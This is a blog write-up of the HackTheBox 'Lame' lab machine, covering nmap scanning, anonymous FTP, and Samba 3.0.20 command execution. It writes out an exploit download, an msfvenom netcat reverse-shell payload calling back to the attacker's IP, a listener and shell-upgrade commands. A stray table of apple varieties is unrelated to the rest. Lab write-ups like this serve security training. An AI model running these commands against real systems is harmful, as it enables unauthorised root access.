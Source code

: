 ```yaml
---
layout: post
title: Lame - HackTheBox
slug: lame-hackthebox
date: '2021-11-07T21:38:18.350Z'
---
```


| Name | OS |
|--------|--------|
| Lame | Linux |

| Priority apples | Second priority | Third priority |
|-------|--------|---------|
| ambrosia | gala | red delicious |
| pink lady | jazz | macintosh |
| honeycrisp | granny smith | fuji |

# Recon
Starting a port scan with nmap:
{% highlight shell %}
IP=10.10.10.3
sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn $IP -oG nmap/initial
{% endhighlight  %}
![nmap-lame]({{ site.baseurl }}/images/lame/1.jpg)

We can scan with nmap scripts for version and vulnerabilities associated with the ports mentioned above:
{% highlight shell %}
sudo nmap -p21,445,139,22,3632 -sCV $IP -oG nmap/targeted
{% endhighlight  %}

# FTP - Port 21
![nmap-lame]({{ site.baseurl }}/images/lame/ftp1.JPG)

We can log in with de anonymous user, but it is empty.

![ftp-anon]({{ site.baseurl }}/images/lame/ftp2.jpg)

We see that the version of the FTP server is vulnerable (searchsploit). Using a python exploit and metasploit we have not been able to access.

![ftp-exploit]({{ site.baseurl }}/images/lame/ftp3.jpg)

# Samba - Port 445

![samba-exploit]({{ site.baseurl }}/images/lame/samba.jpg)


Searching in searchsploit we can see that samba is vulnerable to remote command execution. We are going to look for a Python script to exploit the vuln (according to searchsploit there was only for metasploit, so...) :
{% highlight shell %}
wget https://raw.githubusercontent.com/macha97/exploit-smb-3.0.20/master/exploit-smb-3.0.20.py
{% endhighlight  %}

Next, we will see the script and we will change the payload with msfvenom with our IP address:
{% highlight shell %}
msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.11 LPORT=443 -f python
{% endhighlight  %}
As we can see, it is not necessary to change anything else. We will have to install pysmb (pip install pysmb).

In the other hand, we should listen with netcat by 443 port (nc -lvp 443) that it returns a root shell. Searching for flags at this point is trivial.

# BONUS - Spawning a TTY
{% highlight shell %}
which python                     # (python?)
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL_Z
stty raw -echo; fg
ENTER y ENTER
export TERM=xterm
export SHELL=bash
stty rows Y columns X            # (stty -a)
{% endhighlight  %}
